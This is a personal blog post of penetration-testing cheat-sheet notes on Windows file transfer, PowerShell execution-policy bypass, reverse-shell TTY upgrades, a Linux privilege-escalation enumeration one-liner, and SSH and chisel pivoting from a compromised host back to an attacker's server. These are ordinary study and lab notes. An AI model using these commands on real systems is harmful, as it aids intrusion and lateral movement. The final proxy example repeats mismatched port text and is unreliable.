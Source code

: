 ## Oops...

New blog post!

Why? I've somehow managed to break my bparrot install on an old laptop...

There are 3 files that I want to keep, so for now they'll live here :)


---

### File 1 - Windows notes


#### RDP from Linux

```
xfreerdp /v:$vip /u:$user /p:$pass /cert:ignore /dynamic-resolution +clipboard
```

#### Transfer over SMB

On Linux
```
sudo -E ~/.local/bin/smbserver.py share $(pwd) -smb2support
```
On Windows
```
copy \\10.10.16.11\share\work.exe
```

#### POWERSHELL Policy Stuff
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

Or 

```
Get-Content -Raw <FILE> | iex
```

or 
```
powershell -EncodedCommand <Base64encodedcommands>
```

---

### File 2 - Low-Hanging Privilege Escalation on Linux


#### Try to Spawn a TTY

```
python -c 'import pty; pty.spawn("/bin/sh")' || python3 -c 'import pty; pty.spawn("/bin/sh")' || /usr/bin/script -qc /bin/sh /dev/null
```

Then type `CTRL+Z` to suspend the process and return to the main shell

Get the number of columns using 

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Which should output something like
```
rows 24
columns 80
```
Return to the reverse shell using
```
stty raw -echo; fg
```

In the reverse shell set the correct number of terminals using

```
stty rows <ROWS> cols <COLUMNS>
```

So in this example
```
stty rows 24 cols 80
```

Then set the terminal using
```
export TERM=xterm-256color
```



#### Tiny privesc check

```
echo "--ID--";id;echo "--SUID--";find / -perm -u=s -type f 2>/dev/null; echo "--CAPABILITIES--"; getcap -r / 2>/dev/null; echo "--EXPORTS--"; cat /etc/exports;echo "--CRONTAB--"; cat /etc/crontab;echo "--APP ARMOR ENTRIES--";ls /etc/apparmor.d/; echo "--SUDO--"; sudo -l
```

### File 3 - Simple pivoting commands

#### Portforwarding

##### SSH
```
ssh -Nf -L <local_ip>:<local_port>:<destination_ip>:><remote_port> <user>@<IP>
```
For example to get access to a localhost **only** MySQL database on 10.20.30.40
```
ssh -Nf -L 127.0.0.1:3306:127.0.0.1:3306 victim@10.20.30.40
```
So any time you try to access **your** localhost on port 3306 it will instead go through the SSH tunnel to the SSH host's localhost on port 3306.

The first 127.0.0.1 is not needed, as it's implied. So you could shorten it using this
```
ssh -Nf -L 3306:127.0.0.1:3306 victim@10.20.30.40
```

You also don't need to use the same local port, as the remote port. So instead you could use the 33306 port.
```
ssh -Nf -L 33306:127.0.0.1:3306 victim@10.20.30.40
```

So now any traffic sent over 127.0.0.1:33306 will go through the SSH tunnel to 127.0.0.1:3306

This also doesn't need to be just to 127.0.0.1, so to access resources on an internal network, like an HTTP server with the IP 192.168.20.1, you can use this.
```
ssh -Nf -L 8000:192.168.20.1:80 victim@10.20.30.40
```

So any traffic sent to 127.0.0.1:8000 goes through the SSH tunnel and out to 192.168.20.1:80


##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<LISTENING_IP>:<LISTEN_PORT>:<SEND_IP>:<SEND_PORT>
```

An example to access an internal server on 127.0.0.1:3389 on the compromised host (10.20.30.40) run

Linux host (10.10.10.10)
```
chisel server --port 1234 --reverse
```

Compromised host
```
chisel client 10.10.10.10:1234 R:127.0.0.1:4242:127.0.0.1:3389
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389

#### Proxying

##### SSH
```
ssh -D <proxy_port> -Nf <user>@<victim_ip>
```
For example to setup a proxy on port 6666
```
ssh -D 6666 -Nf victim@10.20.30.40
```
##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse --socks5
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<PROXY_PORT>:SOCKS
```

An example to setup a proxy on port 7676.

Your host (10.10.10.10)
```
chisel server --port 1234 --reverse --socks
```

Compromised host
```
chisel client 10.10.10.10:1234 R:7676:SOCKS
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389 






